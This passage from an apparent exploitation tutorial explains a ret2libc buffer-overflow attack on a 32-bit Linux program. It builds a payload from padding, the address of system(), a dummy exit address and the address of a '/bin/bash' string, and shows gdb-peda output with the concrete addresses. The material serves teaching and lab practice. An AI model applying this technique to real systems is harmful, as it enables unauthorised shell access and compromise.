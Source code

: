 We've just now override the EIP, but what's the next steps. 

Instead of point the return address to our shellcode we placed onto the stack we will point the return address to the function stored in libc library. System() is a function that execute shell command so we will find the address of System() in libc and point the return address to it. Then we will overide the next four bytes with address of Exit() which normally exit the program (If you don't want this step then just replace address of Exit() with any dummy address). After the CPU has finished executing System() the CPU will look at the top of stack and POP the value of top of the stack which is now address of Exit() and then go to execute Exit() function. Next we will place address of string "/bin/sh" or any shell that we want onto the stack at the next four bytes after the address of Exit(). So let's summary the plan.

We know that we have to push 268 bytes in order to overflow EIP. So the payload should be 

> {NOP or Some Buffer}(264) + {Address of Function()}(4) + {Address Exit()}(4) + {Address of string "/bin/sh"}(4)

1. Find the address of System()
2. Find the address of Exit() or just prepare dummy 4 bytes
3. Find the address string "/bin/sh"
4. Prepare payload in format of {NOP or Some Buffer}(264) + {Address of System()}(4) + {Address Exit()}(4) + {Address of string "/bin/sh"}(4)

### 1. Finding the address of System()
```
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0xb7e3c850 <__libc_system>
```
Then we use 0xb7e3c850 as an address of System()

### 2. Finding the address of Exit()
Actually we just use dummy value for 4 bytes. 0xcccccccc

### 3. Finding the address of string "/bin/sh"
```
gdb-peda$ x/100s $esp
... snipped ...
0xbffff89a:     "XDG_SESSION_ID=230"
0xbffff8ad:     "SHELL=/bin/bash"
0xbffff8bd:     "TERM=vt100"
... snipped ...
```
We need the address of "/bin/bash" so we have to plus the address 0xbffff8ad by 6
Then the address of "/bin/bash" will be 0xbffff8ad = 0xBFFFF8B3

### 4. Preparing payload

Prepare payload in format of 
```
{NOP or Some Buffer}(264) + 
{Address of System()}(4) + 
{Address Exit()}(4) + 
{Address of string "/bin/bash"}(4)
```
